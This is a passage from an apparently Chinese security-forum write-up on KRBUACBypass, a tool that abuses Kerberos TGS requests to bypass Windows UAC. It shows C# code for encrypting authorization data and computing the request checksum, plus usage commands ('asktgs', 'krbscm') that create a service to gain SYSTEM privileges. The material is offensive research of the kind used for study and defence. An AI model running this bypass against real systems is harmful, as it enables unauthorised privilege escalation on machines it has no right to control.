 ```c#
    byte[] enc_authorization_data = Crypto.KerberosEncrypt(paEType, Interop.KRB_KEY_USAGE_TGS_REQ_ENC_AUTHOIRZATION_DATA, clientKey, authorizationDataBytes);
    // Assign the encrypted authorization data to the enc_authorization_data field of the KRB_KDC_REQ
    req.req_body.enc_authorization_data = new EncryptedData((Int32)paEType, enc_authorization_data);

    // encode req_body for authenticator cksum
    // Optional
    AsnElt req_Body_ASN = req.req_body.Encode();
    AsnElt req_Body_ASNSeq = AsnElt.Make(AsnElt.SEQUENCE, new[] { req_Body_ASN });
    req_Body_ASNSeq = AsnElt.MakeImplicit(AsnElt.CONTEXT, 4, req_Body_ASNSeq);
    byte[] req_Body_Bytes = req_Body_ASNSeq.CopyValue();
    cksum_Bytes = Crypto.KerberosChecksum(clientKey, req_Body_Bytes, Interop.KERB_CHECKSUM_ALGORITHM.KERB_CHECKSUM_RSA_MD5);
}
```

![image-20230727193455913](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-c1d11a607b99633c5149b8c2acee0d49ef76885e.png)

### Krbscm

这里，krbscm 的功能与 James Forshaw 的 [SCMUACBypass.cpp](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82) 相同，不再赘述。

Let’s see it in action
----------------------

现在让我们来看一下运行效果，如下图所示。首先通过 asktgs 功能申请当前服务器 HOST 服务的票据，然后通过 krbscm 创建系统服务，以获取 SYSTEM 权限。

```console
KRBUACBypass.exe asktgs
KRBUACBypass.exe krbscm
```

![Animation](https://shs3.b.qianxin.com/attack_forum/2023/09/attach-4779e8b82035b4059003bad0a13bd3071919dded.gif)